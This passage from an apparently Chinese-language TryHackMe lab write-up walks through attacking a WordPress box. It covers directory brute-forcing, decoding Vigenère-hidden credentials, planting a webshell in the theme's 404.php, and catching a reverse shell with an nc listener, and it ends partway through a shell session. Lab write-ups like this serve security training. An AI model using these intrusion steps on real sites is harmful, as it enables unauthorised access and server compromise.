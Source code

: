  _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: * | HTTP method: get | Threads: 100 | Wordlist size: 220521

Error Log: /root/dirsearch/logs/errors-21-09-29_01-44-29.log

Target: http://10.10.167.81/wordpress

[01:44:30] Starting: 
[01:44:35] 301 -  327B  - /wordpress/wp-content  ->  http://10.10.167.81/wordpress/wp-content/
[01:44:39] 301 -  328B  - /wordpress/wp-includes  ->  http://10.10.167.81/wordpress/wp-includes/
[01:44:39] 200 -   28KB - /wordpress/  
[01:45:02] 301 -  325B  - /wordpress/wp-admin  ->  http://10.10.167.81/wordpress/wp-admin/
                                                                                                                                                                                                
Task Completed
```

wp-includes可以看到文件list


#  爆破/hackathons，无发现

```http://10.10.167.81/hackathons```里显示了一句话

>Damn how much I hate the smell of Vinegar :/ !!! 

源代码有两行注释
```
Dvc W@iyur@123 
KeepGoing 
```

Vinegar是一种加密算法,中文名叫```维吉尼亚密码```,以下引用自维基百科
>维吉尼亚密码是使用一系列凯撒密码组成密码字母表的加密算法，属于多表密码的一种简单形式。 维吉尼亚密码曾多次被发明。该方法最早记录在吉奥万·巴蒂斯塔·贝拉索于1553年所著的书《吉奥万·巴蒂斯塔·贝拉索先生的密码》中。然而，后来在19世纪时被误传为是法国外交官布莱斯·德·维吉尼亚所创造，因此现在被称为“维吉尼亚密码”

使用[这个网站](https://cryptii.com/pipes/vigenere-cipher)
```Dvc W@iyur@123 ```是密码串
```KeepGoing``` 是加解密的key
解密以后的明文是：Try H@ckme@123



用```elyana : H@ckme@123```登录wordpress后台

在```theme editer```里找到404.php，把webshell写到模板里，访问一个不存在的页面，触发发弹shell

```
──(root💀kali)-[~/tryhackme/allinone]
└─#  nc -lnvp 1234                       
listening on [any] 1234 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.167.81] 59420
Linux elyana 4.15.0-118-generic # 119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 07:44:14 up  2:10,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
elyana
$ cd elyana
$ ls -alh
total 48K
drwxr-xr-x 6 elyana elyana 4.0K Oct  7  2020 .
drwxr-xr-x 3 root   root   4.0K Oct  5  2020 ..